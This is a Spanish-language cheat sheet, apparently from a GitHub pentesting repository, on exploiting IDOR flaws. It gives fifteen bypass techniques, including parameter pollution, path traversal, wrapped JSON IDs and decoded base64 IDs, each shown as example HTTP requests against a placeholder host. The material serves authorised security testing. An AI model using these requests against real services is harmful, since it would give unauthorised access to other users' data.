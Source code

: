 # Insecure Direct Object Reference (IDOR)

IDOR significa Insecure Direct Object Reference y es una vulnerabilidad de seguridad en la que un usuario puede acceder y realizar cambios en los datos de cualquier otro usuario presente en el sistema

Por lo general, se puede encontrar en las API, y en las solicitudes HTTP que contiene una identificación única, por ejemplo, (user_id=) o (id=)

# Explotando

1 - Agregue parámetros a los endpoints, por ejemplo, si hubiera

    GET /api/v1/getuser HTTP/1.1
    Host: host.com
    ...

  Intente este bypass

    GET /api/v1/getuser?id=1234 HTTP/1.1
    Host: host.com
    ...
    
2 - HTTP Parameter pollution 
    
    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    user_id=attacker_id&user_id=victim_id
    
3 - Agregue .json al endpoint

  Si la respuesta es

    GET /v2/GetData/1234 HTTP/1.1
    Host: host.com
    ...
    
  Intente este bypass

    GET /v2/GetData/1234.json HTTP/1.1
    Host: host.com
    ...
    
4 - Prueba en versiones de API obsoletas

  Si la respuesta es

    POST /v2/GetData HTTP/1.1
    Host: host.com
    ...

    id=123
    
  Intente este bypass

    POST /v1/GetData HTTP/1.1
    Host: host.com
    ...

    id=123
    
5 - Envuelva la ID 

  Si la respuesta es

    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    {"user_id":111}
    
  Intente este bypass

    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    {"id":[111]}
    
6 - Envuelva la ID con un objeto JSON     

  Si la respuesta es

    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    {"user_id":111}
    
  Intente este bypass

    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    {"user_id":{"user_id":111}}
    
7 - JSON Parameter Pollution

    POST /api/get_profile HTTP/1.1
    Host: host.com
    ...

    {"user_id":"attacker_id","user_id":"victim_id"}
    
8 - Intente decodificar la identificación, si la identificación está codificada usando md5, base64, etc.

    GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
    Host: host.com
    ...
    
dmljdGltQG1haWwuY29t => victim@mail.com    

9 - Si el sitio web usa GraphQL, intente encontrar IDOR usando GraphQL 

    GET /graphql HTTP/1.1
    Host: host.com
    ...
  
  Intente esto  
    
    GET /graphql.php?query= HTTP/1.1
    Host: host.com
    ...
    
10 - MFLAC (Missing Function Level Access Control)

  Si la respuesta es 

    GET /admin/profile HTTP/1.1
    Host: host.com
    ...
    
  Intente este bypass

    GET /ADMIN/profile HTTP/1.1
    Host: host.com
    ...
    
11 - Intenta intercambiar el ID con números

  Si la respuesta es 

    GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
    Host: host.com
    ...
    
  Intenta este bypass

    GET /file?id=302
    Host: host.com
    ...

12 - Cambiar método de GET a POST

  Si la respuesta es 

    GET /api/v1/users/profile/111 HTTP/1.1
    Host: host.com
    ...
    
  Intente este bypass

    POST /api/v1/users/profile/111 HTTP/1.1
    Host: host.com
    ...
    
13 - Path Traversal    

  Si la respuesta es

    GET /api/v1/users/profile/victim_id HTTP/1.1
    Host: host.com
    ...
    
  Intente este bypass

    GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
    Host: host.com
    ...
    
14 - Cambia el Content-Type

  Si la respuesta es

    GET /api/v1/users/1 HTTP/1.1
    Host: host.com
    Content-type: application/xml
    
  Intente este bypass

    GET /api/v1/users/2 HTTP/1.1
    Host: host.com
    Content-type: application/json
    
15 - Enviar símbolos en lugar de ID

  Si la respuesta es

    GET /api/users/111 HTTP/1.1
    Host: host.com
    
  Intente estos bypass

    GET /api/users/* HTTP/1.1
    Host: host.com
    
  Segundo bypass
 
    GET /api/users/% HTTP/1.1
    Host: host.com

  Tercer bypass

    GET /api/users/_ HTTP/1.1
    Host: host.com
    
  Cuarto bypass

    GET /api/users/. HTTP/1.1
    Host: host.com
